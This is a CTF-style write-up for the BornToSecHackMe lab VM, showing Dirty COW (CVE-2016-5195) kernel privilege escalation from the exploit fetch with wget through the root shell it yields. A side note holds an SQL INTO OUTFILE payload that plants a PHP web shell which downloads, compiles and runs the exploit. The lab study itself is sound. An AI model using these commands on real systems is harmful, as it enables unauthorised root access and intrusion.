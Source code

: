 # Wrightup 2:

## First steps:

First of all we need to check the version of the Kernel that we are running, some Linux kernel version have vulnerabilities that we can exploit to get unauthorised privileges for example.
```
laurie@BornToSecHackMe:~$ uname -r
3.2.0-91-generic-pae
```
Now that we got the kernel version let’s check the architecture this machine is running on :

```
laurie@BornToSecHackMe:~$ lscpu
Architecture:          i686
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                1
On-line CPU(s) list:   0
Thread(s) per core:    1
Core(s) per socket:    1
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            6
Model:                 126
Stepping:              5
CPU MHz:               1996.800
BogoMIPS:              3993.60
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             48K
L1i cache:             32K
L2 cache:              512K
L3 cache:              6144K
```
We can see that this machine is running on `i686` which mean that we got a `32-bit` architecture.

So now with those infos in mind we can search for the right exploit that could work in this configuration, and luckily there’s a well knows `CVE` for this kernel version and that work with `32-bit` architecture.

`CVE-2016-5195` or commonly known as `Dirty COW` (for copy on write) is a known bug based on a race condition that can enable us to modify files we can normally read from but not write into for exemple `/etc/passwd` or any Set-UID program like `/usr/bin/passwd`.
> NB : we can only overwrite already existing bytes in the files not add new ones.

There’s many exploits for this vulnerability, we will stick to one that is simple and quite easy to understand. This version of the exploit will replace root in `/etc/passwd` by a user named `firefart` with a new hashed password that we can specify.

## Exploit execution:
Firstly we will start by downloading the exploit, then we create a simple http server using python so we can transfer the file to the machine.

```
➜  ~ gcl https://github.com/firefart/dirtycow.git
Cloning into 'dirtycow'...
remote: Enumerating objects: 26, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 26 (delta 0), reused 0 (delta 0), pack-reused 23
Receiving objects: 100% (26/26), 8.23 KiB | 2.74 MiB/s, done.
Resolving deltas: 100% (6/6), done.
➜  ~ cd dirtycow
➜  dirtycow git:(master) python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```
Then from the machine we will use `wget` to get our file from the http sever:

```
laurie@BornToSecHackMe:~$ wget http://192.168.56.1:8000/dirty.c
--2022-10-01 05:56:14--  http://192.168.56.1:8000/dirty.c
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-c]
Saving to: `dirty.c.1'

100%[================================>] 4,815       --.-K/s   in 0s

2022-10-01 05:56:14 (12.6 MB/s) - `dirty.c.1' saved [4815/4815]

laurie@BornToSecHackMe:~$
```

Then we compile the c file and run it with our new user’s password as an argument, since this exploit is based on a rase condition it may take some time for it to finish.

```
laurie@BornToSecHackMe:~$ ./dirty fire
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: fire
Complete line:
firefart:fi0oPvJ9W1EEU:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'fire'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'fire'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$
```
Let’s check `/etc/passwd` now to see if it worked:

```
laurie@BornToSecHackMe:~$ cat /etc/passwd
firefart:fi0oPvJ9W1EEU:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
…
```
**TADAM** ! Job done we can see that our newly created user is there and he is root !
(The catch is that there’s no user called root anymore).

Let’s access to firefart and see for ourselves :
```
laurie@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@BornToSecHackMe:/home/laurie#
```

## Side note:
I choose to start this exploit  after getting connected to Laurie but with enough patience this methodology could work from a php backdoor too using something like:
```php
SELECT “<?php system('wget http://192.168.56.1:8000/dirty.c && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty fire'); ?>” INTO OUTFILE '/var/www/forum/templates_c/backfart.php'
```
Then we can just go to our virtualisation software and log in using the new user we created and password to access root.

## Useful links :
* The source code for this exploit can be found [here](https://github.com/firefart/dirtycow).

* Other exploits related to this `CVE` can be found [here](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

* More explanations on how the exploit works can be found here [here](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html)
